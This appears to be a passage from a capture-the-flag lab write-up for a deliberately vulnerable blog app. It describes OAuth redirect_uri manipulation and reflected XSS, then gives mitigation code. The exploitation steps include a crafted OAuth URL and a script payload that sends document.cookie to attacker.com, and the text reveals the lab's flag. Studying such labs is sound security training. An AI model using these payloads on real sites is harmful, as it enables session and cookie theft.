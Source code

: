 ### 2. OAuth Redirect URI Manipulation

- **Location**: `/login` and `/callback` endpoints in `app.py` and `idp.py`.
- **Description**: The IdP (`idp.py`) does not validate the `redirect_uri` against registered URIs for `client_id=blogsphere_client`, allowing attackers to use arbitrary `redirect_uri` values to capture authorization codes.
- **Exploitation**:
  - Craft a URL like `http://localhost:5001/auth?client_id=blogsphere_client&redirect_uri=http://localhost:8000/attacker&response_type=code&state=attacker_state`.
  - Log in to receive the authorization code at the attacker-controlled endpoint.
  - Use the code to access the protected dashboard at `http://localhost:5000/callback?code=<captured_code>&state=attacker_state`.

### 3. Reflected Cross-Site Scripting (XSS)

- **Location**: `/search` endpoint in `app.py`.
- **Description**: The endpoint accepts a `query` parameter and directly embeds it into an HTML response without sanitization or escaping, allowing attackers to inject malicious scripts. If the query contains HTML tags, a cookie containing the flag (`flag{r3fl3ct3d_xss_pwn3d}`) is set, which can be stolen via script execution.
- **Exploitation**:
  - Visit `http://localhost:5000/search?query=<script>alert('XSS')</script>` to execute a JavaScript alert.
  - Use a payload like `http://localhost:5000/search?query=<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>` to steal the flag cookie.

## Mitigation

### 1. LFI Mitigation

- **Fix**: Validate the file path to ensure it remains within the `posts/` directory.

- **Code**:

  ```python
  if not os.path.realpath(requested_file).startswith(os.path.realpath(POSTS_DIR)):
      return "Access denied: Invalid file path", 403
  ```

### 2. OAuth Mitigation

- **Fix**: Validate the `redirect_uri` against the client's registered URIs and enable `state` parameter validation.

- **Code** (in `idp.py`):

  ```python
  if client_id in CLIENTS and redirect_uri in CLIENTS[client_id]['redirect_uris']:
            auth_code = f"code_{secrets.token_hex(8)}"
            redirect_url = f"{redirect_uri}?code={auth_code}&state={state}"
            print(f"Returning state: {state}")
            return redirect(redirect_url)
        return "Invalid client ID or redirect URI", 400
    return "Invalid credentials", 401

- **Code** (in `app.py`):

  ```python
  if not state or state != session.get('oauth_state'):
      return "Invalid state parameter", 400
  ```

